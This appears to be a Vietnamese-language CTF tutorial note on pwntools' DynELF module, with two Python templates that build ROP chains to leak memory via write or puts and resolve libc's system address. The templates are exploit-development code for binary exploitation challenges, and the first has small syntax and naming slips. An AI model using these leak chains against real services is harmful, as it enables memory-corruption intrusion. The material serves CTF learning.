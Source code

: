 # DynELF pwntools

> DynELF Module pwntools - Resolving remote functions using leaks.

- [Link-DynELF_pwntools](https://docs.pwntools.com/en/stable/dynelf.html) .

- Trong thực tế một số challenge không cung cấp libc.so nhưng vẫn có các hàm output có thể được sử dụng để leak giá trị (khác với ret2dlresolve là không có hàm output).
- Khi đó khớp trực tiếp libc.so từ module - hàm DynELF trong pwntools.
- Điều kiện yêu cầu là địa chỉ thực trong LIBC và các hàm output: `write, puts, printf, ...`

- `[A] VD:` Khi hàm output của chương trình được cung cấp là hàm write, chúng ta có thể sử dụng hàm write để xuất địa chỉ thực của hàm write. Mẫu viết DynELF(64-bits) của chức năng write được cung cấp:
```python
def leak(address):
    payload = padding
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_ret) + p64(address)
    payload += p64(pop_rdx_ret) + p64(8)
    payload += p64(write_plt)
    payload += p64(ret_address)
    p.send(payload)
    data = p.recv(8)
    return data

d=DynELF(leak, elf=ELF("./program")
system_address=d.lookup("system", "libc")
log.info("system LIBC address: " + hex(system))
```

- `[B] VD:` Khi là hàm puts, đầu ra của hàm puts khó kiểm soát hơn nhiều so với đầu ra của chức năng write vì chúng ta có thể kiểm soát đầu ra của hàm write bao nhiêu byte  còn đầu ra của hàm puts là cho đến khi gặp ký tự NULL
=> khó khăn hơn cho việc leak vì ta vẫn chỉ cần 4 byte đầu khi leak. Khi sử dụng puts sẽ xuất hiện hai tình huống:                                                                                                                                                                                          
    * `1.` Không còn dữ liệu nào của chương trình được in ra sau khi dùng pus để leak.
    * `2.` Có dữ liệu của chương trình được in ra sau khi sử dụng puts để leak. VD: "<value use puts => leak>Helloworld!!!"
- Mẫu chương trình, với trường hợp hai chỉ cần thay `c=b""` = `c=b"H"`.

```python
def leak(address):
	count = 0
	data = b""
	payload = b"A" * 64 + b"B" * 8
	payload += p64(pop_rdi) + p64(address)
	payload += p64(puts_plt)
	payload += p64(start_addr)
	payload = payload.ljust(200, b"B")
	p.send(payload)
	print(p.recvuntil(b"bye~\n"))
	up = b""
	while True:
		c = p.recv(numb=1, timeout=0.5)
		count += 1
		if up == b'\n' and c == b"":
			data = data[:-1]
			data += b"\x00"
			break
		else:
			data += c
		up = c
	data = data[:4]
	log.info("%#x => %s" % (address, (data or b'')))
	return data
```

- References:
    * https://blog.csdn.net/qq_43986365/article/details/100182414

    * https://www.anquanke.com/post/id/85129

    * Challenge pwn-100, pwn-200 của XCTF.


